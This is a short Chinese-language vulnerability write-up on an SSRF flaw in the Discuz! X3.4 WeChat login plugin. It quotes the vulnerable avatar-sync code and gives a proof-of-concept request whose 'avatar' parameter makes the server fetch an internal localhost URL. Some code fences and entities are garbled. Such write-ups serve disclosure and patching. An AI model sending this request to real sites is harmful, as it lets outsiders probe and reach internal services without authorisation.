

# Discuz! X3.4 Weixin Plugin ssrf

## 一、漏洞简介

## 二、漏洞影响

Discuz! X3.4

## 三、复现过程

`source/plugin/wechat/wechat.class.php` `WeChat`类`syncAvatar`方法：

```
 static public function syncAvatar($uid, $avatar) {

```
 if(!$uid || !$avatar) {
        return false;
    }

    if(!$content = dfsockopen($avatar)) {
        return false;
    }

    $tmpFile = DISCUZ_ROOT.'./data/avatar/'.TIMESTAMP.random(6);
    file_put_contents($tmpFile, $content);

    if(!is_file($tmpFile)) {
        return false;
    }

    $result = uploadUcAvatar::upload($uid, $tmpFile);
    unlink($tmpFile);

    C::t('common_member')-&gt;update($uid, array('avatarstatus'=&gt;'1'));

    return $result;
} 
``` 
```

`source/plugin/wechat/wechat.inc.php` 中调用了`WeChat::syncAvatar`，直接用`$_GET['avatar']`作为参数传进去：

```
......

elseif(($ac == ‘register’ && submitcheck(‘submit’) || $ac == ‘wxregister’) && $_G[‘wechat’][‘setting’][‘wechat_allowregister’]) {

```
 ......

    $uid = WeChat::register($_GET['username'], $ac == 'wxregister');

    if($uid &amp;&amp; $_GET['avatar']) {
        WeChat::syncAvatar($uid, $_GET['avatar']);
    } 
``` `}` 
```

不过因为这里用到了微信登录的插件，所以要利用的话需要目标站开启微信登录：



这里 SSRF 的构造很简单，直接在`avatar`参数构造 url 即可（只是注意`wxopenid`参数每次请求都要足够随机保证没有重复，如果重复的话代码是无法走到发起请求的逻辑的）：

### poc

```
http://target/plugin.php?id=wechat:wechat&ac=wxregister&username=vov&avatar=http://localhost:9090/dz-weixin-plugin-ssrf&wxopenid=dont_be_evil 
```

